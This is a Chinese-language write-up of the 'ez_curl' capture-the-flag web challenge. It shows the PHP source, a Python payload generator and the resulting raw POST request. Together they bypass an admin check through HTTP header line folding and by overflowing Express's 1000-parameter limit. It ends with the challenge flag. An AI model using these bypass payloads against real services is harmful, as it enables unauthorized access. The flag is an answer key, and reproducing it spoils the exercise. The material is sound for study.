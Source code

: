 # ez_curl

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=5e0d1bac-85d0-11ed-ab28-000c29bc20bf&task_category_id=3)

又是复现[wp](https://xia0ji233.pro/2023/01/01/Nepnep-CatCTF2022/#ez-curl%F0%9F%94%97)的一天。知识点其实挺少的，只有两个，但是读题我读了半天。

```php
<?php
highlight_file(__FILE__);
$url = 'http://back-end:3000/flag?';
$input = file_get_contents('php://input');
$headers = (array)json_decode($input)->headers;
for($i = 0; $i < count($headers); $i++){
    $offset = stripos($headers[$i], ':');
    $key = substr($headers[$i], 0, $offset);
    $value = substr($headers[$i], $offset + 1);
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
        die('try hard');
    }
}
$params = (array)json_decode($input)->params;
$url .= http_build_query($params);
$url .= '&admin=false';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
curl_setopt($ch, CURLOPT_NOBODY, FALSE);
$result = curl_exec($ch);
curl_close($ch);
echo $result;
```

[json_decode](https://www.w3cschool.cn/php/php-rxi22oqv.html)函数接受一个JSON格式的字符串并且把它转换为PHP变量。此处我们的输入内容借由`file_get_contents('php://input')`传入程序，查了一篇[文章](https://phper.shujuwajue.com/shu-zu/shu-ru-liu-php-input)，里面说“当Content-Type为application/x-www-form-urlencoded且提交方法是POST方法时，$_POST数据与php://input数据是一致的”。看了一眼抓的包，是application/x-www-form-urlencoded，那这里就是读取post数据而已。根据for循环的逻辑，我们要在post里传headers，内容是一个数组，由`:`分割，肯定要带上admin和true。

接着看curl部分。这里完全是curl最基本的[使用](https://www.runoob.com/php/func-curl_setopt.html)，[http_build_query](https://php.golaravel.com/function.http-build-query.html)使用给出的关联（或下标）数组生成一个经过 URL-encode 的请求字符串。但是程序给我们拼接了一个`&admin=false`，说明我们要绕过这个设置，admin是什么都不能是false。

然后我有点迷茫，先上exp，最后再分析我迷茫的点。用bp给这个页面发个post，post的内容用脚本生成，抄过去就得了。

```python
data='{"headers":["admin: t",\n" true: t"],"params":{"admin":"t",'
print(data)
for i in range(2,1001):
    if i==1000:
        print(f'"{i}":"1"')
    else:
        print(f'"{i}":"1",')
print("}\n}")
```

效果如下：

```
POST / HTTP/1.1
Host: 61.147.171.105:55708
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11949

{"headers":["admin: t",
" true: t"
],"params":{"admin":"t",
"2":"1",
"3":"1",
"4":"1",
...此处省略
"999":"1",
"1000":"1"
}
}
```

两个技巧分别是：

1. express的parameterLimit默认为1000
2. 根据rfc，header字段可以通过在每一行前面至少加一个SP或HT来扩展到多行

第一点来自源代码的[这一行](https://github.com/ljharb/qs/blob/7e937fafdf67330d54547bbd34909f1f0c11ed72/dist/qs.js#L93)。结合这篇[文章](https://thunf.github.io/2017/01/20/20170120-form-keys-1000-limit/)的分析，当我们传入的参数超过1000个时，之后的参数会被舍弃掉。于是这里我们最开始发个`"admin":"t"`设置好admin的值，加上999个没用的参数，把程序拼接的`&admin=false`挤掉，即可绕过过滤。

至于headers，注意到`" true: t"`里面有个空格了吗？SP指的是空格，HT指的是制表符，根据[资料](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html#sec4.2)（这篇[文章](https://blog.csdn.net/rainysia/article/details/8131174)也有提到）中的一句话：

- Header fields can be extended over multiple lines by preceding each extra line with at least one SP or HT.

不过我确实没看出扩展为多行为什么就能绕过过滤。headers不传也能绕过过滤的，而且这个文件里也没告诉我们为啥非要传这样的header，传值不是t也行，任何字母都行。为啥啊，难道就是猜吗？望有大佬告知。

## Flag
> CatCTF{23aaaab824aadf15eb19f4236f3e3b51}